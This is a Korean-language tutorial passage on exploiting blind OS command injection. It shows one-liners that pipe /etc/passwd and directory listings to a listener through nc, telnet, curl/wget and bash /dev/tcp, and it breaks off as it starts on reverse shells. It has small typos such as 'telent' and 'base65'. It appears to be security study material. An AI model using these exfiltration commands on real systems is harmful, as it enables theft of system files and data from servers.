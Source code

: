 <br/><br/>

### 실행 결과를 확인할 수 없는 상황
* Command Injection 취약점이 발생해 원하는 OS 명령어를 실행할 수 있지만, 실행 결과가 사용자에게 노출되지 않는 상황에서 활용할 수 있는 공격 방법들 <br/> &nbsp;&nbsp; → Network In/Out Bound 제한 여부와 출력 리다이렉션 가능 여부를 기준으로 다음과 같이 분류할 수 있음

<br/>

* Network In/Out Bound의 제한이 없을 때 사용할 수 있는 방법
    - **Network Outbound**: 삽입할 명령줄에 **네트워크 도구**를 함께 실행해 자신의 서버에 명령어 실행 결과를 전송함
        + 네트워크 도구를 서버에 설치할 수 있거나 설치되었을 때 사용 가능한 방법들이 이에 해당됨
        + OS 명령어를 실행한 결과를 네트워크 도구를 이용해 외부 서버로 전송하는 방법
            - nc (netstat)
                + TCP 또는 UDP 프로토콜을 사용하는 네트워크에서 데이터를 송수신하는 프로그램 <br/> &nbsp;&nbsp; → 쉘에서 제공하는 **파이프와 함께 사용**하여 앞서 실행한 명령어의 결과를 네트워크로 전송할 수 있음
                + 예시
                    - [1] 파이프와 nc를 통해 /etc/passwd 파일의 출력 결과를 특정 IP(```127.0.0.1```), PORT(```8080```)에 전송함
                        ```linux
                        cat /etc/passwd | nc 127.0.0.1 8080
                        ```
                    - [2] nc를 이용해 해당 IP(```127.0.0.1```), PORT(```8080```)로 전송된 데이터의 내용을 확인할 수 있음
                        ```linux
                        $ nc -l -p 8080 -k -v
                        Listening on [0.0.0.0] (family 0, port 8080)
                        Connection from [127.0.0.1] port 8080 [tcp/http-alt] accepted (family 2, sport 42396)
                        root:x:0:0:root:/root:/bin/bash
                        daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
                        bin:x:2:2:bin:/bin:/usr/sbin/nologin
                        sys:x:3:3:sys:/dev:/usr/sbin/nologin
                        ...
                        ```
            - telent
                + 네트워크 연결에 사용되는 프로토콜 (클라이언트를 설치해 네트워크 연결을 시도할 수 있음) <br/> &nbsp;&nbsp; → 쉘에서 제공하는 **파이프와 함께 사용**하여 앞서 실행한 명령어의 결과를 네트워크로 전송할 수 있음
                + 예시: /etc/passwd 파일의 출력 결과를 telnet을 이용해 ```127.0.0.1```(IP)의 ```8080```(PORT)번 포트로 전송함
                    ```linux
                    cat /etc/passwd | telnet 127.0.0.1 8080
                    ```
            - curl/wget
                + 웹 서버의 컨텐츠를 가져오는 프로그램 <br/> &nbsp;&nbsp; → 웹 서버의 컨텐츠를 가져오기 위해 서버를 방문할 때 접속 로그가 남게 되는 특징을 이용해 **명령어의 실행 결과를 웹 서버의 경로 또는 Body와 같은 영역에 포함**해 전송함
                + 예시
                    - GET Parameter에 ```ls -al``` 실행 결과(디렉터리 목록)를 포함해서 네트워크(127.0.0.1의 8080번 포트)로 전송함
                        ```linux
                        curl "http://127.0.0.1:8080/?$(ls -al|base64 -w0)"
                        ```
                        + ```base65 -w0``` → 실행 결과의 개행을 제거하기 위해 base64로 인코딩하여 전달함
                    - ```ls -al``` 실행 결과(디렉터리 목록)을 POST Body에 포함해서 네트워크(127.0.0.1의 8080번 포트)로 전송함
                        ```linux
                        curl http://127.0.0.1:8080/ -d "$(ls -al)"
                        wget http://127.0.0.1:8080/ --method=POST --body-data="`ls -al`"
                        ```
            - /dev/tcp, /dev/udp
                + (bash 한정) Bash에서 지원하는 기능으로 네트워크에 연결하는 방법
                    - ```/dev/tcp``` 또는 ```/dev/udp``` 장치 경로의 하위 디렉터리로 IP 주소와 포트 번호(```/dev/tcp/{IP주소}/{PORT번호}```)를 입력하면 Bash는 해당 경로로 네트워크 연결을 시도하는 특징을 이용함 <br/> &nbsp;&nbsp; → 앞선 명령어의 실행 결과를 ```>``` 문자로 재지정(redirection)하여 해당 경로로 명령어의 실행 결과를 전송함
                + 예제: ```/dev/tcp```를 이용하여 /etc/passwd 파일의 출력 결과를 네트워크(127.0.0.1의 8080번 포트)로 전송함
                    ```linux
                    cat /etc/passwd > /dev/tcp/127.0.0.1/8080
                    ```
    - **Reverse Shell / Bind Shell**: 임의로 실행할 쉘 명령어를 네트워크를 통해 입력하거나 출력하여 공격하는 기법
        + **Reverse Shell**(리버스 쉘): 취약점이 발생하는 서버(공격 대상 서버)에서 공격자의 서버로 쉘을 연결하는 것 *→ Network Outbound*
            - sh & bash를 이용하는 방법